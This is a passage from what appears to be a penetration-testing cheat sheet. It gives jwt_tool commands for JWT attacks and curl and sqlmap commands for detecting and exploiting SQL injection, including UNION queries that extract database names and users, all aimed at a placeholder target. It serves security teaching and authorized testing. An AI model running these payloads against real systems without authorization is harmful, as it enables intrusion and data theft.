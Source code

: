 **jwt_tool automated testing:**

```bash
# All vulnerability scans
python3 jwt_tool.py <JWT> -M at -t "http://target.com/api/data"

# Specific tests:
# -X a : Algorithm confusion
# -X i : Inject new claims
# -X s : JWKS spoofing
```

---

## Injection Attacks

### SQL Injection

**Detection (manual):**

```bash
# 1. Single quote test
curl "http://target.com/product?id=1'"
# Error message indicates SQLi vulnerability:
# "You have an error in your SQL syntax..."

# 2. Boolean-based test
curl "http://target.com/product?id=1 AND 1=1"  # Should work normally
curl "http://target.com/product?id=1 AND 1=2"  # Should return different result

# 3. Time-based blind SQLi
curl "http://target.com/product?id=1 AND SLEEP(5)"
# If response takes 5+ seconds = vulnerable

# 4. Union-based SQLi
curl "http://target.com/product?id=1 UNION SELECT NULL,NULL,NULL--"
# Adjust number of NULLs until no error

curl "http://target.com/product?id=1 UNION SELECT 1,2,3--"
# Numbers appear in response = injection point

curl "http://target.com/product?id=1 UNION SELECT 1,database(),user()--"
# Extract database name and current user
```

**sqlmap (automated SQLi exploitation):**

```bash
# Basic scan
sqlmap -u "http://target.com/product?id=1"

# Specify parameter to test
sqlmap -u "http://target.com/search" --data "q=test" -p q

# Cookie-based SQLi
sqlmap -u "http://target.com/dashboard" --cookie="session=abc123" --level=2

# POST request with SQLi
sqlmap -u "http://target.com/login" --data="username=admin&password=test" -p username

# Aggressive testing (risk=3, level=5)
sqlmap -u "http://target.com/product?id=1" --risk=3 --level=5 --batch

# Extract database names
sqlmap -u "http://target.com/product?id=1" --dbs

```
